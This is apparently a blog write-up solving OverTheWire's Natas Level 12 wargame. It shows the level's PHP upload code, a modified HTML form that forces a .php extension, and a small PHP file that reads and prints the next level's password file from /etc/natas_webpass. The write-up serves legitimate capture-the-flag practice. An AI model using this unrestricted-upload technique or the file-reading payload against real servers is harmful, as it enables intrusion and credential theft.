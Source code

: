 ```yaml
---
layout: post
title: "OverTheWire Natas Level 12"
date: 2012-11-11T06:27:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - natas
 - php
 - hacking
---
```


The next level to attack in the [OverTheWire](http://www.overthewire.org) Natas wargame, is [Level 12](http://natas12.natas.labs.overthewire.org), which is more "real-world" as well, since developers often forget to limit file extensions.

<!-- more -->

It starts out giving you the option to upload a <1KB file to the server.

{% img /images/natas12_1.png %}

As with any other challenge, I viewed the source, to analyze it. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

The filename of the uploaded file is a randomly generated .jpg file, based on the hidden input in the HTML. To change that, there are a few ways, but I simply did the old-school method of saving the HTML to my desktop, and modifying it, since there was no code to verify the HTTP Referer. I made the code read:

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="hostess.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

I had really only changed the filename to be a .php extension, since it will still be randomly assigned a filename, but keep the extension. The other change was simply to make it submit to the full URL of the site.

I then opened up the HTML file in my browser, and selected a PHP file that I had made just for this level. It simply reads the password file for the next level, and prints it to the screen. The code for it is as follows: 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas13');
echo $file;
?>
```

{% img /images/natas12_2.png %}

Once that uploaded, it gave me a link to the newly uploaded file.

{% img /images/natas12_3.png %}

Once the newly uploaded file executed, it wrote out the contents of the next level's password.

{% img /images/natas12_4.png %}
